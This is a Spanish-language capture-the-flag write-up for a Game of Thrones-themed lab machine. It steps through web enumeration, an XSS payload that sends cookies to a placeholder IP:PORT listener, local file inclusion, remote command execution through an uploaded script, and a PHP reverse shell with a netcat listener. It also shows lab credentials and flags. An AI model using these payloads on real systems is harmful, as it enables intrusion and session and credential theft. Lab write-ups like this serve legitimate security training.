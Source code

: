 
# Reto 4

## Paso 1

Luego de configurar la maquina e iniciarla esta mostraba la ip de la misma al cual le hicimos un escaneo con nmap.

Encontramos el puerto 80 con un servidor apache y ssh en el 22.

## Paso 2

con wfuzz buscamos rutas y encontramos las siguientes:

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                              
=====================================================================
                        
000004946:   200        19 L     66 W       665 Ch      "comentarios"                        
000009563:   200        31 L     118 W      964 Ch      "index"                              
000017880:   200        0 L      5 W        37 Ch       "test"
```

la ruta test no tenia nada interesante, pero comentarios e index si:

index.php

![Captura de pantalla -2024-05-20 21-23-52](https://github.com/halexys/UciTeam1/assets/72656657/ee703efd-eca9-4325-b369-1836d4c5be6c)


comentarios.php

![Captura de pantalla -2024-05-20 21-27-34](https://github.com/halexys/UciTeam1/assets/72656657/c1b5bf4e-53b5-4df3-87f0-b2547c2055dc)


Este ultimo tenia tres cosas interesantes.

- Establecia una cookie user con un valor aleatorio y la mostraba en el texto "Tu llave es:"
- un enlace "http://palaces.dorne.got"
- un formulario con un textarea para enviar un "comentario"

&nbsp;

## Paso 3

Analizamos la web y encontramos q era vulnerable a XSS, enviando una etiqueta html con un pequeño codigo javascript en el comentario

&nbsp;

el cual enviaba a un sevidor q poniamos en escucha con python las cookies.

```html
<script>document.write('<img src="http://IP:PORT/'+document.cookie+'"/> ')</script>
```

lo q devolvio:

![Captura de pantalla -2024-05-20 21-44-17](https://github.com/halexys/UciTeam1/assets/72656657/4ea0930f-e349-4171-a296-aea0a3e52cf0)


de aqui la cookie interesante era user=Unbowed,Unbent,Unbroken

## Paso 4

tras un rato de intentar cosas pusimos la url q aparecia en esta pagina en /etc/hosts

y abrio otra pagina:

![Captura de pantalla -2024-05-20 21-53-32](https://github.com/halexys/UciTeam1/assets/72656657/09259921-848e-4765-ad44-8b8c292e5f59)


no demoramos mucho en darnos cuenta q teniamos q establecer la cokie q devolvio el XSS y nos permitio "Acceso" y la primera flag:

flag: flag{j4rd1n-Alc4z4r}

![Captura de pantalla -2024-05-20 21-55-52](https://github.com/halexys/UciTeam1/assets/72656657/f088ff70-9224-4955-992c-cf477c44067b)


junto con la flag otra url la cual agregamos a hosts : http://don-pedro.dorne.got

## ![Captura de pantalla -2024-05-20 22-05-16](https://github.com/halexys/UciTeam1/assets/72656657/c9f8e020-79c5-434a-b5bd-ff4458cc681b)


&nbsp;

### PASO 5

al darle en cambiar idioma salio lo siguiente al final de la pagina:

![Captura de pantalla -2024-05-20 22-10-27](https://github.com/halexys/UciTeam1/assets/72656657/5ee2f7b1-30a6-451d-99bd-eab212ed410c)


Era bastante obvio el LFI(loca file inclusion) ya q al principio de cada linea estaban las letras LFI y directamente probamos con file=flag.txt (el texto era muy obvio) y luego con access.txt

![Captura de pantalla -2024-05-20 22-14-19](https://github.com/halexys/UciTeam1/assets/72656657/1bdb0ae5-194d-4c20-9ac1-6e22e8749224)


![Captura de pantalla -2024-05-20 22-15-46](https://github.com/halexys/UciTeam1/assets/72656657/d8035307-fe5c-41bf-8a1f-3da493dcd2e2)


una nueva url en el acces.txt y un usuario y contraseña?

![Captura de pantalla -2024-05-20 22-18-16](https://github.com/halexys/UciTeam1/assets/72656657/426ce299-4407-4717-9019-4c8c481a74e5)


al ingresar el usario y la contraseña sale lo siguiente:

![Captura de pantalla -2024-05-20 22-19-33](https://github.com/halexys/UciTeam1/assets/72656657/9949bcdc-79f8-4721-9d09-951114beb4ec)


## Paso 6

probamos subir un archivo cualquiera:

![Captura de pantalla -2024-05-20 22-22-06](https://github.com/halexys/UciTeam1/assets/72656657/6bf241d5-a8aa-47c0-80db-c0bdc997bdb1)


como dice q solo funcionara secret.sh probamos ejecutar un comando simple de bash

```bash
ls
```

y probamos con lfi en la ruta del palacio de don pedro:

![Captura de pantalla -2024-05-20 22-27-05](https://github.com/halexys/UciTeam1/assets/72656657/cb5e3da1-754e-42ae-91a8-99161e43b4ee)


&nbsp;

Funciona la ejecucion remota de comandos, y probamos una revershell en php

```php
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

y ponemos netcat en escucha:

```bash
nc -lnvp PORT
```

![Captura de pantalla -2024-05-20 22-32-17](https://github.com/halexys/UciTeam1/assets/72656657/4a2b0472-ab3e-487c-9e7d-cbb4a87ffcb3)

con la revershell navegamos por algunos directorios y encontros la 3ra flag en /home/www-data

![Captura de pantalla -2024-05-20 22-36-29](https://github.com/halexys/UciTeam1/assets/72656657/2c5df24c-faea-45bf-8cf6-cd45ed186728)



en /etc/passwd estaba el usuario doran y la contraseña en base64

```
doran:x:1001:1001:,,,,RDByNG4yMDI0Kgo=:/home/doran:/bin/bash
```

```
doran
D0r4n2024*
```

y luego accedimos por ssh

## Paso 7

dentro del directorio home del usuario doran habia lo siguiente:

```bash
doran@jnic2024:~$ ls
flag.txt  reto-final.txt
```

```bash
doran@jnic2024:~$ cat flag.txt 
No me fío de tu palabra, si no puedo confiar en ti, no podré entregarte la última flag
doran@jnic2024:~$
```

```bash
doran@jnic2024:~$ cat reto-final.txt 
Ya no tengo en nadie en quien confiar.

Voy a hacerte una ultima pregunta muy importante y necesito que me respondas con la verdad.

Dependiendo de tu respuesta, te dare o no la ultima flag.

Siento que alguien cercano a la familia, me va a traicionar, no se quien, pero necesito saberlo antes que sea tarde....

Podras decirme su nombre?: 

Respuesta: *******

Solo completa el nombre y te dire mi decision en el archivo flag.txt
doran@jnic2024:~$
```

Luego de googlear quien mato a doran martel encontramos q fue Ellaria y probamos reempalzar los asteriscos por Ellaria:

```bash
doran@jnic2024:~$ cat flag.txt 
Sabía que podía confiar en ti, antes de ser traicionado te entrego la última flag, cuida de Dorne!
flag{0=;;;D0rn3;;;>}
Felicidades!!! Reto D0rn3 Finalizado - Powered by j4ck 
doran@jnic2024:~$
```

&nbsp;

# FIN

